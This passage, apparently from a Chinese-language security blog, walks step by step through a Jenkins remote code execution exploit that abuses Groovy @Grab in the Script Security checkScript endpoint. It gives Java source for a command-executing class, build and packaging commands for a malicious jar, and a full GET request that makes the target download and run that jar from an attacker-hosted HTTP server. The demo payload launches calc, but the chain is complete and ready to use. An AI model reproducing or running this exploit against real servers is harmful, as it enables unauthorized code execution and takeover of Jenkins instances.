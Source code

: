 1. 编写执行命令的恶意类

    ```java
    public class Exploit {
        public Exploit() {
            try {
                String payload = "calc";
                String[] cmds = {"cmd", "/c", payload};
                java.lang.Runtime.getRuntime().exec(cmds);
            } catch (Exception e) {
            }
        }
    }
    ```

2. 编译生成class

    ```java
    javac Exploit.java
    ```

3. 创建文件夹

    ```bash
    mkdir -p META-INF/services/
    ```

4. 将要执行的类名写入到`META-INF/services/org.codehaus.groovy.plugins.Runners` 中，原因见上文`@grab`的分析

    ```bash
    echo Exploit >META-INF/services/org.codehaus.groovy.plugins.Runners
    ```

5. 打包成jar

    ```bash
    jar cvf payload-1.jar Exploit.class META-INF/
    ```

6. 创建目录，与最终poc中garb的group，module，version关联，如

    `@Grab(group='exp',module='payload',version='1')`

    则创建`exp/payload/1`目录

7. 把生成的jar文件放在`exp/payload/1`中，并开启一个http服务

8. 发送PoC

    ```
    GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=@GrabConfig(disableChecksums=true)%0a@GrabResolver(name='payload',root='http://127.0.0.1:83/')%0a@Grab(group='exp',module='payload',version='1')%0aimport%20Exploit;
    ```

9. http响应并执行命令

    ![1568259623884](https://blog-1252261399.cos.ap-beijing.myqcloud.com/images/1568259623884.png)

